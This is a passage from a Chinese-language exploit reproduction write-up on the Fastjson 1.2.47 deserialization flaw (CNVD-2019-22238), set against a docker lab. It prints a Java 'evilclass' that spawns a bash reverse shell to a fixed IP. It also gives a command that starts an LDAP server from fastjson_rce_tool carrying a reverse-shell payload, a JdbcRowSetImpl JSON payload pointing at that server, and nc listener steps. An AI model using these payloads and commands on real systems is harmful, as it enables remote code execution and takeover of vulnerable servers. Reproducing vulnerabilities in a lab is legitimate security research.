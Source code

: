 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822095649.png)

若需要反弹shell只需要把java文件中的`String[] commands`改为bash反弹命令即可，这里不再赘述

    
    
    import java.lang.Runtime;import java.lang.Process;public class evilclass{static {try {Runtime rt = Runtime.getRuntime();String[] commands = {"/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.1.8/9001 0>&1"};Process pc = rt.exec(commands);pc.waitFor();} catch (Exception e) {// do nothing}}}

# CNVD‐2019‐22238

CNVD-2019-22238即Fastjson1.2.47 反序列化漏洞

## 漏洞原理

Fastjson提供了autotype功能，允许用户在反序列化数据中通过“@type”指定反序列化的类型，其次，Fastjson自定义的反序列化机制时会调用指定类中的setter方法及部分getter方法，那么当组件开启了autotype功能并且反序列化不可信数据时，攻击者可以构造数据，使目标应用的代码执行流程进入特定类的特定setter或者getter方法中，若指定类的指定方法中有可被恶意利用的逻辑（也就是通常所指的“Gadget”），则会造成一些严重的安全问题。并且在Fastjson
1.2.47及以下版本中，利用其缓存机制可实现对未开启autotype功能的绕过。

影响版本为 `fastjson < 1.2.47`

## 漏洞复现

首先进入1.2.47的docker环境

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822095650.png)

这里的jdk版本还是8u102，这个版本没有com.sun.jndi.rmi.object.trustURLCodebase的限制，可以继续利用RMI或者LDAP进行命令执行

上面用了RMI进行命令执行，这里使用LDAP进行漏洞复现

LDAP使用的工具为fastjson_tool，首先clone到本地

    
    
    git clone https://github.com/wyzxxz/fastjson_rce_tool.git

首先启动LDAP服务，8888为LDAP服务的端口，后面跟的是bash反弹shell的命令

    
    
    java -cp fastjson_tool.jar fastjson.HLDAPServer 192.168.1.8 8888 "bash=/bin/bash -i  >& /dev/tcp/192.168.1.10/9001 0>&1"

这里执行命令之后给出了两个payload，我们使用下面这个payload复制一下

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822095651.png)

这里还是跟上面一样需要改GET方法为POST方法，添加Content-Type:application/json，在就是把之前生成的payload复制

    
    
    {"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.1.8:8888/Object","autoCommit":true}}

发包使用nc监听8888端口即可收到反弹shell
